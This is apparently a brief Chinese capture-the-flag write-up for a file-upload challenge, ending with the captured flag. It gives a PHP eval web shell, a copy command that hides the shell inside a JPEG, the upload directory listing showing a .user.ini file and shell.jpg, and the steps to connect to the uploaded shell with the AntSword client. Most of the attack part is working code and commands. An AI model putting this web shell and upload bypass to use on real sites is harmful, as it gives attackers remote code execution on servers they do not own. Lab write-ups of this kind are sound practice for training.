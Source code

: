 制作图片马

s.php

```assembly
<script language="php">eval($_POST['a']);</script>
```

```assembly
copy hair.jpg/a + s.php/b shell.jpg
```

上传图片马

`Your dir uploads/a2dac6bd7c61bc58189816aab5957f01
Your files :
array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) ".user.ini" [3]=> string(9) "index.php" [4]=> string(9) "shell.jpg" }`

蚁剑连接

`http://969943a9-a160-4cf8-b5bb-874d44cba7b8.node4.buuoj.cn:81/uploads/a2dac6bd7c61bc58189816aab5957f01/index.php`

得到flag

flag{534ef74d-fcbd-4d49-83ed-36953200a311}